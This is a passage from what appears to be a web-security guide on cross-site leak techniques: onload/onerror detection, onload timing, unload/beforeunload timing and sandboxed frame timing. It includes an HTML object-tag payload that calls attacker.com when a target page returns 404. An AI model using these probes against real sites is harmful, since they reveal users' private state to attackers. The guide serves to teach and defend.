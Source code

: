 The code example try lo l**oad scripts objects from JS**, but **other tags** such as objects, stylesheets, images, audios could be also used. Moreover, it's also possible to inject the **tag directly** and declare the `onload` and `onerror` events inside the tag (instead of injecting it from JS).

There is also a script-less version of this attack:

```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```

In this case if `example.com/404` is not found `attacker.com/?error` will be loaded.

### Onload Timing

* **Inclusion Methods**: HTML Elements
* **Detectable Difference**: Timing (generally due to Page Content, Status Code)
* **More info**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events)
* **Summary:** The [performance.now()](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#performancenow) API can be used to measure how much time it takes to perform a request. Other clocks could be used.
* **Code Example**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events)

### unload/beforeunload Timing

* **Inclusion Methods**: Frames
* **Detectable Difference**: Timing (generally due to Page Content, Status Code)
* **More info**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events)
* **Summary:** The [SharedArrayBuffer clock](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#sharedarraybuffer-and-web-workers) can be used to measure how much time it takes to perform a request. Other clocks could be used.
* **Code Example**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events)

The [`unload`](https://developer.mozilla.org/en-US/docs/Web/API/Window/unload\_event) and [`beforeunload`](https://developer.mozilla.org/en-US/docs/Web/API/Window/beforeunload\_event) events can be used to measure the time it takes to fetch a resource. This works because **`beforeunload`** is triggered when the browser **requests a new navigation** request, while **`unload`** is triggered when that **navigation actually occurs**. Because of this behaviour, it is possible to calculate the time difference between these two events and measure the **time it took the browser to complete fetching the resource**.

### Sandboxed Frame Timing + onload <a href="#sandboxed-frame-timing-attacks" id="sandboxed-frame-timing-attacks"></a>

* **Inclusion Methods**: Frames
* **Detectable Difference**: Timing (generally due to Page Content, Status Code)
* **More info**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#sandboxed-frame-timing-attacks](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#sandboxed-frame-timing-attacks)
* **Summary:** The [performance.now()](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#performancenow) API can be used to measure how much time it takes to perform a request. Other clocks could be used.
* **Code Example**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#sandboxed-frame-timing-attacks](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#sandboxed-frame-timing-attacks)
